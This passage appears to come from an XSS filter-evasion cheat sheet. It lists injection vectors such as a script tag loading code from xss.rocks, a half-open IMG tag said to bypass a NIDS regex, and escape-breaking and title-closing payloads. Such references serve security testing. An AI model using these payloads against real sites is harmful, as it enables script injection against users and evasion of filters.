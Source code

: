 ## Protocol resolution in script tags

This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a `</SCRIPT>` tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.

    <SCRIPT SRC=//xss.rocks/.j>

## Half open HTML/JavaScript XSS vector

Unlike Firefox the IE rendering engine doesn't add extra data to you page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "\>" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: `/((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/` because it doesn't require the end "\>". As a side note, this was also affective against a real world XSS filter I came across using an open ended `<IFRAME` tag instead of an `<IMG` tag:

    <IMG SRC="`<javascript:alert>`('XSS')"

## Double open angle brackets

Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:

    <iframe src=http://xss.rocks/scriptlet.html <

## Escaping JavaScript escapes

When the application is written to output some user information inside of a JavaScript like the following: `<SCRIPT>var a="$ENV{QUERY\_STRING}";</SCRIPT>` and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read `<SCRIPT>var a="\\\\";alert('XSS');//";</SCRIPT>` which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:

    \";alert('XSS');//

An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:

    </script><script>alert('XSS');</script>

## End title tag

This is a simple XSS vector that closes `<TITLE>` tags, which can encapsulate the malicious cross site scripting attack:

    </TITLE><SCRIPT>alert("XSS");</SCRIPT>

## INPUT image

    <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

## BODY image
